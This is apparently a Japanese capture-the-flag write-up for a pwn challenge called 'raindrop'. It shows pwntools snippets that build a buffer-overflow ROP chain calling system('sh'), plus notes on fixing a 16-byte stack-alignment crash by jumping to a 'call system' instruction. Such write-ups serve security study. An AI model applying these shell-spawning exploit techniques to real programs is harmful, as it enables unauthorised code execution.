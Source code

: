 ```yaml
---
tags:
  - pwn/bof
  - pwn/rop
createdAt: 2024/11/22
---
```


# raindrop

## 概要

* Buffer Overflow
* Return Oriented Programming
* `sh\x00`

## 観察

* system と `sh\x00` があるので呼び出す

## 解法

```python
rop.call('system', [next(exe.search(b"sh\x00"))])
payload = flat(bytes(0x18), rop.chain())
```

がうまく動作しなかった。

以下のエラーが出ていたし、16 bytes alignment の問題。

```plaintext
► 0x736db9f07973 <do_system+115>    movaps xmmword ptr [rsp], xmm1                   <[0x7ffca3852948] not aligned to 16 bytes>
```

じゃあ、以下のように alignment を揃えればよさそうだけど、

```python
rop.raw(rop.find_gadget(['ret'])[0])
rop.call('system', [next(exe.search(b"sh\x00"))])
payload = flat(bytes(0x18), rop.chain())
```

これだと 0x30 バイトを超えてしまう。

代わりに `call system` を呼べば、0x30 バイト以内で alignment の問題を回避できる。

## 余談①

magic number を避けて、objdump_search なるライブラリを作って見たものの、`call ...` を直接呼ばないといけない状況はあまりない気がする。

## 余談②

GDB がうまく動作しない問題は以下で解決した。

```bash
echo "set follow-fork-mode parent" >> ~/.gdbinit
```
